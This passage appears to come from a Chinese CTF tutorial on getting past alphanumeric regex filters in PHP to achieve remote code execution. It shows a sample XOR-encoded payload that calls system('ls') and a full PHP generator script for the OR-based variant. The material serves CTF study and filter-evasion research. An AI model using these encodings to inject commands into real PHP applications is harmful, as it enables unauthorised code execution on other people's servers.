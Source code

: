 使用方法：

首先我们先在php脚本中修改正则过滤的表达式，`$preg` 运行一下php脚本，会生成一个txt文件

（其中包含了由哪些字符异或可以产生我们想要的结果）然后我们再运行python脚本，输入函数，以及命令即可。

例如：

```cmd
D:\xxx\scripts>python rce_xor.py

[+] your function：system
[+] your command：ls
("%08%02%08%08%05%0d"^"%7b%7b%7b%7c%60%60")("%0c%08"^"%60%7b");
```

就生成了一个我们想要的字符串（因为存在一些不可打印字符，所以经过了url编码）



#### 2、或

原理类似，脚本改动一下就行：

rec_or.php:

```php
<?php

/* author yu22x */

$myfile = fopen("or_rce.txt", "w");
$contents="";
for ($i=0; $i < 256; $i++) { 
	for ($j=0; $j <256 ; $j++) { 

		if($i<16){
			$hex_i='0'.dechex($i);
		}
		else{
			$hex_i=dechex($i);
		}
		if($j<16){
			$hex_j='0'.dechex($j);
		}
		else{
			$hex_j=dechex($j);
		}
		$preg = '/[0-9a-z]/i';//根据题目给的正则表达式修改即可
		if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
					echo "";
    }
  
		else{
		$a='%'.$hex_i;
		$b='%'.$hex_j;
		$c=(urldecode($a)|urldecode($b));
		if (ord($c)>=32&ord($c)<=126) {
			$contents=$contents.$c." ".$a." ".$b."\n";
		}
	}

}
}
fwrite($myfile,$contents);
fclose($myfile);
```
